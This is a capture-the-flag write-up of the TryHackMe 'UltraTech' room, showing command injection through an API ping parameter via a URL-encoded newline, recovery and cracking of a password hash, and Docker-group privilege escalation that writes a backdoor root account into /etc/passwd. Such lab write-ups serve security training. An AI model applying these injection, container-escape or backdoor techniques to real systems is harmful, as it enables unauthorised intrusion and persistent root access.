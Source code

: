 # UltraTech (Medium)

- The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

                                                           **~_. UltraTech ._~**

*This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.*

*If you get stuck at some point, take some time to keep enumerating.*

              **[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have is the company's name and their server's IP address.

- Link: https://tryhackme.com/r/room/ultratech1
-------------------------------------------------------------------------------------------------------------------------


- We skip some basic steps enumurate and focus into the step research and exploit the machine.
- After scan all ports and enumurate directories, we have the port :31331 and port :8081 that we can use both.
- Let’s research all directories in port 31331 —> we have the /partners.html is the login page
- Port 8081 is the API of website UltraTech. They have two directories are /ping and /auth .
- /auth is the page link with the page login /partners.html so when we login the credentials, the page will transfer to → /auth to show the message “Invalid or login success”.
- We have the hint to find the database lying around so we need to find it to login the page.
- Now we can use to Burpsuite to intercept something.

![Untitled](https://github.com/user-attachments/assets/bbac3d55-c9ce-492d-8c67-a1b10e3eb5fa)

- We can see when we open the page, the API will be automatic run with the Request query ping IP. We see the Response with ping successfully.

![Untitled 1](https://github.com/user-attachments/assets/d1cdbe14-3653-4045-bee0-d60a8354096f)

—> We have known the ping is always successful so we can manipulate the query ping IP to Inject command into query. Now we will `FUZZ` the inject command by Intruder.

![Untitled 2](https://github.com/user-attachments/assets/577f3e20-8156-4e03-900d-ffc3c8f78669)

- After researching the APIs, we know that we can inject command like ls, whoami, … with the command URL encoded.
- First we add $$ and command ls into the query.

- Secondly, we will load Payloads we will FUZZ. In here we will use the payload in `/usr/share/wordlists/wfuzz/Injections/All_attack.txt`  and Start attack.

![Untitled 3](https://github.com/user-attachments/assets/16c27c97-2229-4d2d-858c-a665d331ef0b)

- Waiting and check the Fuzz we will see the Payload “%0a” —> This is the newline URL encoded that is successful.
- 
![Untitled 4](https://github.com/user-attachments/assets/ba50d4d4-1ca9-4324-8773-09d3299a0e29)

—> We have the database we need: utech.db.sqlite.

- Cat it to see information:

![Untitled 5](https://github.com/user-attachments/assets/5b21cf8e-2870-4404-874a-86075723b214)

—> We have the credentials r00t:f357a0c52799563c7c7b76c1e7543a32 (password hashed) —> Dehash password —> r00t:n100906

- We use the credential we found to login SSH:

![Untitled 6](https://github.com/user-attachments/assets/199f8765-cd97-4b1e-983a-e7fe8aab62a2)

- We will privilege Root to get the SSH key private.
- And we use the tool `Linpeas.sh` scan the machine to find the vector priv and we have found the vector *docker .*
- First we try it with Docker shell in *GTFOBin:*

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
```

—> It is not worked !!!

- We check the image of Docker:

```bash
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB
```

—> We have one the docker image is “Bash” so we research to find other way with Docker.

- So We found it !!!

![Untitled 7](https://github.com/user-attachments/assets/c45b384b-967d-4047-a9bd-76dd2d95ddf3)

- We will  mount bash to create the new account in backdoor.
- Note: We need to cd /  firstly and after that we will mount bash.

![Untitled 8](https://github.com/user-attachments/assets/1e8a7172-1316-4d9d-8ba7-81605b25ba23)

```bash
r00t@ultratech-prod:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lp1:x:1000:1000:lp1:/home/lp1:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
r00t:x:1001:1001::/home/r00t:/bin/bash
www:x:1002:1002::/home/www:/bin/sh
toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh
```

—> Successful !!! and now `su toor` and get the private SSH key.

![Untitled 9](https://github.com/user-attachments/assets/f202a489-995a-46e7-b549-63c3d40dccba)

END!!!
